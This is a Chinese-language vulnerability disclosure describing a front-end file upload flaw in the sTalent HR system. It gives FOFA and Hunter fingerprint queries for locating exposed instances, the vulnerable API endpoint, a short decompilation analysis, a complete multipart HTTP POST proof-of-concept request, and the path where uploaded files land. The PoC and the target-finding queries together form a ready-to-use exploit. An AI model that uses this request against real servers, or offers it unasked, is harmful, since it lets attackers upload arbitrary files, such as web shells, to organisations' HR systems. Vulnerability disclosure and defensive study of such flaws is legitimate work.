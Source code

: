 ```yaml
---
title: 朗新天霁sTalent前台文件上传
---
```


# 朗新天霁sTalent前台文件上传

## 漏洞厂商

北京朗新天霁软件技术有限公司

## 厂商官网

http://www.hrsoft.com.cn/  

## 产品

sTalent系统

## 指纹

**FOFA**

```
"/js/Comm/loadingsmall.js" && icon_hash="1772087922"
```

**Hunter**

```
web.body="/js/Comm/loadingsmall.js" && web.icon=="4859e39ae6c0f1f428f2126a6bb32bd9"
```

漏洞地址:`/api/Report/SaveNewReport`

漏洞分析:

在`Web.Api.dll`文件中进行反混淆，得到源代码。程序采用MVC结构

`Web.Api.Controllers.Report`类下的`SaveNewReport`存在文件上传漏洞

由于存在鉴权，需要方法添加注释

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624183117550.png)

这里满足，并且在`httpPostedFile`对象后调用了`SaveAs`方法

存储路径在`/report\\newReportFiles`下

## POC

```
POST /api/Report/SaveNewReport?rptId=1 HTTP/1.1
Host: x.x.x.x
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=qreedyvzmub5afo1nba2i22d
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxzpiOaIdFLPXG0zW
Content-Length: 177 

------WebKitFormBoundaryxzpiOaIdFLPXG0zW
Content-Disposition: form-data; name="file";filename="1.txt"
Content-Type: image

111
------WebKitFormBoundaryxzpiOaIdFLPXG0zW—
```

文件路径:

`/report/newReportFiles/1_1.txt`

`report/newReportFiles/{rptId}_filename`

新版本路径在:`/api/Report/Report/SaveNewReport`

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624183400986.png)
